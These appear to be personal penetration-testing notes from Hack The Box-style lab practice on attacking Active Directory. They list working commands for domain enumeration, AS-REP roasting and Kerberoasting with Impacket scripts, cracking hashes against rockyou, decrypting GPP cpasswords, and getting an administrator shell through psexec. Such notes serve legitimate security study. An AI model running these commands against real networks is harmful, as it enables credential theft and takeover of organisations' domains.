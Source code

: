              {
             $prop
             }

             Write-Host "------------------------"
            }
        Resolving Nested Groups:
            to list groups, change last lines of script to:
            $Searcher.SearchRoot = $objDomain
            $Searcher.filter="(objectClass=Group)"
            $Result = $Searcher.FindAll()
            Foreach($obj in $Result)
            {
             $obj.Properties.name
            }
            to list members in a group, change to $Searcher.filter="(name=Secret_Group)"    and  $obj.Properties.member
        Currently Logged on Users:
            Import-Module .\PowerView.ps1
             Get-NetLoggedon -ComputerName client123
            DC sessions:  Get-NetSession -ComputerName dc01
        Enumeration through Service Principal Names:
            ex. looking for web servers, update script:  $Searcher.filter="serviceprincipalname=*http*"
                 nslookup CorpWebServer.corp.com
    Lateral Movement:
        Pass the Hash for NTLM
        Overpass the Hash to get kerberos ticket
        Pass the Ticket
        Distributed Component Object Model (DCOM)
    Persistence:
        Golden Tickets
        Domain Controller Synchronization

    Active Directory Recon/Connecting:
        especially for domain controllers with smb, ldap, kerberos, etc.:  enum4linux 10.10.10.161  (gets usernames)
        ldapsearch -x -b "dc=cascade,dc=local" -H ldap://10.10.10.10
        rpcclient -U "" -N 10.10.10.161
          enumdomusers
          enumdomgroups
          querygroup 0x200 (see admin group members)
            querygroupmem 0x200
              queryuser 0x1f4
          querydispinfo
        (checking if username exists) Try to get user hashes, use GetNPUsers.py: for user in $(cat users); do python3 GetNPUsers.py -no-pass -dc-ip 10.10.10.193 fabricorp.local/${user} | grep -v Impacket; done
          crack hash: hashcat -m 18200 hash.txt /usr/share/wordlists/rockyou.txt --force
          Then connect with evil-winrm--try password and hash

    Decrypting cpassword/GPP with gpp-decrypt:  gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
      then:  smbclient //10.10.10.100/Users -U SVC_TGS
      After getting user creds, then do Kerberoasting if ports are there (https://0xrick.github.io/hack-the-box/active/)
        1. add domain to /etc/hosts
        2. get admin Kerberos ticket:  python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -request active.htb/SVC_TGS
        3. crack:  ./john admin.txt --wordlist=/usr/share/wordlists/rockyou.txt
        4. connect:  python3 /usr/share/doc/python3-impacket/examples/psexec.py administrator@active.htb
